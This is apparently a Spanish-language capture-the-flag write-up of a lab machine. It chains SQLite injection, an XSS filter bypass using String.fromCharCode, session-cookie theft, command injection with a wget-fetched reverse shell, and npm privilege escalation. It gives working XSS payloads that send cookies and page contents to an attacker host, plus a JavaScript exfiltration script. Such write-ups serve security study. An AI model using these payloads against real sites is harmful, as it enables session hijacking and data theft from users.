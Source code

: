 -----------
- Tags: #sqlite-injection #xss #npm #fromCharCode #cookie #bypassing-xss
----------
## Tecnicas utilizadas

- SQL Injection [SQLI] - Sqlite  
- XSS Injection - Bypassing Techniques (fromCharCode) + Own Javascript Code + Session Cookie Theft  
- Abusing existing parameters - RCE  
- NodeJS npm - Privilege Escalation

## Procedimiento

![[Pasted image 20230607115931.png]]

Comenzamos fuzzeando la pagina web por directorios existentes. Encontramos un `Login` que, haciendo algunas peticiones por burpsuite, podemos llegar a la conclusion de que es vulnerable a **SQLIte Injection**. 
Una vez dentro, con las credenciales encontradas(y el hash crackeado), intentamos colar un XXS. 
La pagina contempla el XXS asi que incorpora algunos mecanismos de seguridad, pero podemos bypassearlo de la siguiente manera:

```js
<img src="test><script>alert("XSS")</script>">
```

Lo que procederemos hacer, es mandarnos la cookie de la persona que este viendo la nota en el momento de la siguiente manera:

```js
<img src="test><script>document.location("http://ip/?cookie=' + document.cookie + '")</script>">
```

Sin embargo, podemos observar que nos lo parchea tambien, probablemente porque en el string existe la palabra `document.location`. Lo que podemos hacer es cambiar el `document.location` -> `document.write`. Entonces el payload quedaria de la siguiente manera:

```js
<img src="test><script>document.write('<script src="http://ip/pwned.js></script>')</script>">
```

Pero tambien lo tiene contemplado, asi que no queda de otra mas que jugar con *FromCharCode*. Esta funcion convirte los valores de decimal a caracteres. En python podemos ejecutar la siguente setencia para covertir toda la cadena a decimal.

```python
sentence = """document.write('<script src="http://ip/pwned.js"z></script>');"""

for character in sentence:
	print(ord(character))
```

Ahora si, pasamos la cadena al payload y quedaria de la siguiente manera:

```js
<img src="test><script>eval(String.fromCharCode(<SENTENCE>));</script>">
```

Vemos que ahora si nos llega la petición. Lo que continuaria seria crear un script *pwned.js* para mandarnos la informacion que necesitemos del usuario que este sufriendo el XSS. Hariamos algo como:

```js
// Crea una variable para tramitar una peticion
var req1 = new XMLHttpRequest();

// Manda la peticion hacia la maquina local, a la direccion deseada, indicamos el "false" para que sea no asincrona.
req1.open('GET', 'http://localhost:8000/vac/:uid', false);

// La mandamos
req1.send();

// Almacenamos el html de la peticion en una variable
var response = req1.responseText;

// Creamos una segunda peticion
var req2 = new XMLHttpRequest();
req2.open('POST', 'http://<my-server>:8000/test', true);
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');

var params = encodeURIComponent(response);
req2.send(params);
```

 Se leekea la cookie del administrador, hacemos un robo de sesion. Podemos ver que nos aparece ahora una ventana que dice ADMIN. Si la seleccionamos nos manda a un apartado de administrador en el que podemos descargar las notas y ¿Bookings?. Si pasamos la peticion por burpsuite, nos damos cuenta de que el parametro table nos devuelve lo que ya habiamos visto en el sqlite-injection. Pero si colocamos un `'` nos devuelve un error. Nos indica los caracteres validos y entre ellos esta el `&` asi que, es probable que haya otro parametro a colocar. 
 Si fuzzeamos por el otro parametro con wffuz y encontramos varios resultados, todo estos parecen ser comandos de linux, si los colocamos en la URL vemos que efectivamente se esta acontenciendo una ejecucion de comandos.
 
 Para poder establacernos una shell, tendremos que usar hexadecimal, ya que los puntos no estan dentro de los caracteres permitidos.
 Podemos subir una revershell en bash con wget y ejecutarlo desde la carpeta donde se guarda.
 Para escalar privilegios, hacemos uso de GTFobins.